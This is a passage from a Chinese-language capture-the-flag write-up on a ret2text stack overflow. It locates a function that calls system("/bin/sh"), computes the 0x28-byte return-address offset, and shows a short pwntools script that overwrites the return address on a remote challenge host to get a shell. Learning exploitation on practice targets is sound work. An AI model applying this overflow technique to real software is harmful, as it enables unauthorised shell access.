 > 发现`dt_gift`函数中含有`system("/bin/sh")`指令可以getshell
>

> 再接下来回到汇编指令界面，可以看到`dt_gift`函数的地址是0x4011A4  
"starts at 4011A4"
>
> ![](/images/40f54ad7d9ac7cd2690b7c138aca7faf.png)
>

> 双击`main`函数原代码中`read`函数的参数buf可以看到`main`函数的栈帧：
>
> ![](/images/9ac487a678b70088d1442bc0b4489c2b.png)
>

> 从截图左边的相对位置可以算出来buf距离返回地址“__return_addsress”  
一共0x20+0x08=0x28字节
>

> 所以payload当中需要先填入0x28字节的垃圾数据  
再加上返回到`dt_gift`函数的地址来替换原来的返回地址  
这样程序在执行完`read`函数后就会返回到`dt_gift`函数继续运行
>

> 最后的最后，就是写脚本来实现这一系列过程了  
先在当前目录新建一个Python文件：
>

```plain
vim ret2text.py
```

> 接着开始敲代码：
>

```python
from pwn import *
link=remote('challenge.basectf.fun',端口)
dt_gift_addr=0x4011A4
payload=b'a'*0x28+p64(dt_gift_addr)
link.sendline(payload)
link.interactive()
```

> 打开实例接着运行脚本：
>

```plain
python3 ret2text.py
```

> 然后就发现Got EOF了...  
![](C:\Users\garhi\AppData\Roaming\Typora\typora-user-images\image-20240824130423312.png)![](/images/bdb6dbfb9b929d8cf875dbb58708bb77.png)
>

> 接下来接着找资料：  
靶机程序是64位符合现代 x86-64 ABI（应用二进制接口）规范
>
